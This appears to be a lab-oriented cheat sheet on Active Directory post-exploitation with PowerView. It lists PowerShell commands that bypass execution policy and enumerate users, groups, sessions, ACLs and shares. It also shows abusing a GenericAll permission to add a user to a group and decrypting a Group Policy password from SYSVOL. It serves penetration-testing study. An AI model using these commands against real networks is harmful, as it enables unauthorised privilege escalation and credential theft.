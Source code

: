 Transfer powerview to target: https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1
```powershell
powershell -ep bypass
```
```powershell
Import-Module .\PowerView.ps1
```
# Basic Enumeration
```powershell
Get-NetDomain
```
## Get users on domain
```powershell
Get-NetUser
```
```powershell
Get-NetUser | select cn
```
```powershell
Get-NetUser | select cn,pwdlastset,lastlogon
```
### Get specific user details
```powershell
Get-NetUser fred
```
## Get groups on domain
```powershell
Get-NetGroup | select cn
```
### Get specific group members
```powershell
Get-NetGroup "Sales Department" | select member
```
## Enumerate domain-joined machines
```powershell
Get-NetComputer
```
```powershell
Get-NetComputer | select name,dnshostname,operatingsystem,operatingsystemversion
```
## Enumerate User Permissions
Check user to see if they have admin privileges on any domain machines:
```powershell
Find-LocalAdminAccess
```
## Enumerate Logged on Users
This will check a computer to see if there are any users currently logged in. Due to windows changing how to handles sessions, the API's running behind the hood may require admin:
```powershell
Get-NetSession -ComputerName files04 -Verbose
```
Alternatively, use sysinternals tool PsLoggedOn (https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon):
```powershell
.\PsLoggedon.exe \\client74
```
# Enumerate ACE's
Access Control Entries associated with objects defines whether access to the specific object is allowed or denied.
* GenericAll: Full permissions on object
* GenericWrite: Edit certain attributes on the object
* WriteOwner: Change ownership of the object
* WriteDACL: Edit ACE's applied to object
* AllExtendedRights: Change password, reset password, etc.
* ForceChangePassword: Password change for object
* Self (Self-Membership): Add ourselves to for example a group
```powershell
Get-ObjectAcl -Identity stephanie
```
Note the "ObjectSID" and "SecurityIdentifier" of the output then run the following on the SIDs:
```powershell
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```
Converting multiple SID's at once:
```powershell
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```
This command checks if a group ("Management Department") has any objects with "GenericAll" permissions:
```powershell
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```
Typically, a regular domain user should not have GenericAll permissions on other objects in AD, so this may be a misconfiguration.
## Example misconfig
If the group "Management Department" object has a user "stephanie" configured with GenericAll permissions on that group object, they can be simply run the following command to add stephanie to the group:
```powershell
net group "Management Department" stephanie /add /domain
```
# Enumerating Domain Shares
```powershell
Find-DomainShare
```
If files are shown, they can be viewed:
```powershell
ls \\dc1.corp.com\sysvol\corp.com\
```
Look for domain policy files! They store local admin passwords and can be decrypted:
```powershell
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```
